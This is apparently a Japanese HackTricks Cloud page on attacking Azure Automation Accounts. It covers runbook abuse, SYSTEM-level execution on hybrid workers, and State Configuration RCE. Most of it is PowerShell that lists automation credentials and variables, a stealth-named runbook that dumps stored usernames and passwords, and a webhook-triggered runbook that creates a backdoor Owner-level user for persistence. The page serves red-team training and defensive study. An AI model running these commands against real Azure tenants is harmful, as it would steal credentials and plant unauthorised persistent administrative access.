 # Az - オートメーション アカウント

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Azure Automationは、Azureおよび非Azure環境全体で一貫した管理をサポートするクラウドベースの自動化、オペレーティングシステムの更新、および構成サービスを提供します。プロセス自動化、構成管理、更新管理、共有機能、異種機能が含まれます。

これらは、**Azure環境**を**管理**、チェック、構成するために実行することができる（アクションやスクリプトなど）Azure内の"**スケジュールされたタスク**"のようなものです。

### Run As アカウント

**Run as アカウント**を使用すると、自己署名証明書を持つAzure AD **アプリケーション**を作成し、**サービスプリンシパル**を作成し、**現在のサブスクリプション**内のアカウントに**Contributor**ロールを割り当てます（多くの権限）。\
Microsoftは、オートメーションアカウントに**マネージドアイデンティティ**の使用を推奨しています。

{% hint style="warning" %}
これは**2023年9月30日に削除され、マネージドアイデンティティに変更されます。**
{% endhint %}

## ランブック & ジョブ

**ランブック**は任意のPowerShellコードを**実行**することを可能にします。これは、添付された**プリンシパル**（ある場合）の権限を盗むために**攻撃者によって悪用される**可能性があります。\
**ランブック**の**コード**には**機密情報**（クレデンシャルなど）が含まれている可能性があります。

**ジョブ**を**読む**ことができる場合は、実行の**出力**（潜在的な**機密情報**）を**含む**ため、それを行ってください。

`Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`に移動します

### ハイブリッドワーカー

ランブックは、Azure内の**コンテナ**または**ハイブリッドワーカー**（非Azureマシン）で実行できます。\
**Log Analytics Agent**は、ハイブリッドワーカーとしてVMにデプロイされます。\
ハイブリッドワーカージョブは、Windowsでは**SYSTEM**として、Linuxでは**nxautomation**アカウントとして実行されます。\
各ハイブリッドワーカーは**ハイブリッドワーカーグループ**に登録されます。

したがって、**Windowsハイブリッドワーカー**で**ランブック**を実行することを選択できる場合、外部マシン内で**System**として**任意のコマンド**を実行します（素晴らしいピボットテクニック）。

## コンプロマイズ状態構成 (SC)

Azure Automation **State Configuration**は、任意のクラウドまたはオンプレミスデータセンターのノードに対してPowerShell Desired State Configuration (DSC) [構成](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)を書き込み、管理し、コンパイルするAzure構成管理サービスです。このサービスは[DSCリソース](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)もインポートし、クラウド内でターゲットノードに構成を割り当てます。AzureポータルでAzure Automation State Configurationにアクセスするには、**構成管理**の下で**状態構成 (DSC)** を選択します。

これらの構成には**機密情報**が含まれている可能性があります。

### RCE

SCを悪用して、管理されているマシンで任意のスクリプトを実行することが可能です。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 列挙

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### ランブックを作成する

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Run Bookを使用してAutomation Accountで定義されたCreds & Variablesを抽出する

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
同じことを既存のRun Bookを変更し、ウェブコンソールからも実行できます。
{% endhint %}

## 永続性

### 高権限ユーザーを作成する自動化

* 新しいAutomation Accountを作成
* "Create Azure Run As account": はい
* サブスクリプションにOwner権限を持つAzureADユーザーを作成する新しいrunbookをインポート
* このブログ用のサンプルrunbookはこちら – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* runbookを公開
* runbookにwebhookを追加
* Automation accountにAzureADモジュールを追加
* Azure Automationモジュールを更新
* automation accountに"User Administrator"と"Subscription Owner"の権限を割り当て
* 最終的にアクセス権を失う…
* webhookをpostリクエストでトリガーし、新しいユーザーを作成

{% code overflow="wrap" %}
```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
{% endcode %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>
